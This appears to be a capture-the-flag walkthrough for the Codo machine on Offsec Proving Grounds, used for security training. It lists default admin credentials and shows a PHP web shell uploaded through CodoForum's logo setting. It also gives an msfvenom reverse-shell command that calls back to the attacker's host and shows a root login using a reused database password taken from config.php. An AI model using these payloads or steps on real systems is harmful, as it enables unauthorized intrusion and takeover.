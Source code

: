 # Codo

## Info

Codo is an easy rated linux machine from Offsec proving grounds.


## User

CodoForum 5.1 is vulnerable to a file upload RCE.

Admin credentials.

```
admin:admin
```

Change the forum logo to a php file.

```
dashboard > Global Settings > Change forum logo
```

Webshell

```
<?php system($_REQUEST["cmd"]); ?>
```

Access.

```
http://192.168.185.23/sites/default/assets/img/attachments/shell.php?cmd=id
```

Upload a shell.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.165 LPORT=4444 -f elf > shell
```

## Root

Enumerating the web application files, the following file contained password information.

```
/var/www/html/sites/default/config.php
```

Database credentials.

```
codo:FatPanda123
```

Password re-use allowed root access with database credentials.

```
su root
```
